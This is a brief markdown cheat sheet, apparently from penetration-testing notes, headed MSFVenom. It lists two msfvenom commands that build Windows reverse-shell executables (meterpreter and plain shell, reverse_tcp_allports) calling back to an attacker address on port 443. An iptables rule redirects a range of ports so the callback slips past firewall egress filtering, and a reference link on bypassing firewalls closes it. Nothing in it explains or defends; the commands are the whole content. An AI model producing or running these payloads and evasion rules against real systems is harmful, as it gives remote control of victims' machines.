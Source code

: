 # MSFVenom

`$ msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe`

`$ msfvenom -p windows/shell/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe`

`$ sudo iptables -A PREROUTING -t nat -p tcp --dport 443:5556 -j REDIRECT --to-port 443`

## References

- [Bypass Firewall Restrictions Metasploit reverse_tcp_allports](https://www.hackingarticles.in/bypass-firewall-restrictions-metasploit-reverse_tcp_allports/)
